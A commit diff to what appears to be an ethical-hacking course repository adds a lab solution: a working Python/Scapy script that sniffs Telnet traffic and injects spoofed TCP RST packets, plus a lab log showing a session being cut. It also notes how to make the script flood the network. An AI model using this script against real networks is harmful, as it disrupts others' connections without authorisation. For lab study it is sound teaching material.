

Before and after one commit to ProSecCorp/Ethical-hacking, a Markdown page: 02 - TCPSpoofing/solution.md, the part around the change. Shown at 89% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Document TCP spoofing automation with Scapy
Added Python code for automating TCP spoofing attack using Scapy. Included instructions for sniffing Telnet packets and sending RST packets in response.

````diff
--- a/02 - TCPSpoofing/solution.md
+++ b/02 - TCPSpoofing/solution.md
@@ -133,7 +133,57 @@ root@472341f5fb4b:/#
 
 ## Automatic
 
+We used this code to automate the attack. It will sniff any packet that uses the Telnet protocol and send in reply a RST packet. We can remove the last two conditions inside the `if` control to be more aggressive and flood the network.
 
+Remember to put the right interface in `pkt = sniff(iface = X, ...)`.
+
+```py
+#!/usr/bin/env python3
+from scapy.all import *
+
+flag = 0
+
+def sendrst(pkt):
+    global flag
+    if pkt.haslayer(IP) and pkt.haslayer(TCP) and pkt[TCP].dport==23 and pkt[TCP].flags != 0x004 and flag==0:
+        src_add = pkt[IP].src
+        dst_add = pkt[IP].dst
+        ip = IP(src=src_add, dst=dst_add)
+
+        sp = pkt[TCP].sport
+        seq_n = pkt[TCP].seq
+        payload_l = len(pkt[TCP].payload)
+        tot_seq = seq_n+payload_l
+        tcp = TCP(sport=sp, dport=23, flags="R", seq=tot_seq, ack=0)
+
+        pkt = ip/tcp
+        print(f"Sent RST packet from {src_add}:{sp} to {dst_add}:23 with sequence number {tot_seq}")
+        send(pkt,verbose=0)
+        flag = 1
+
+pkt = sniff(iface ='br-774a3b00e93c', filter ='tcp', prn=sendrst)
+```
+
+In this example we run the code after the Telnet login:
+```bash
+root@472341f5fb4b:/# telnet 10.9.0.5
+Trying 10.9.0.5...
+Connected to 10.9.0.5.
+Escape character is '^]'.
+Ubuntu 20.04.1 LTS
+abb6db62e897 login: seed
+Password:
+Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-54-generic x86_64)
+```
+
+We start the script, then we can see that just after typing any digit the connection will be closed due to the received RST.
+
+```bash
+seed@abb6db62e897:~$ aConnection closed by foreign host.
+root@472341f5fb4b:/#
+```
+
+(Wireshark log)[Pictures/task_2/rst_auto_sent.PNG]
 
 # TASK 3
 
````
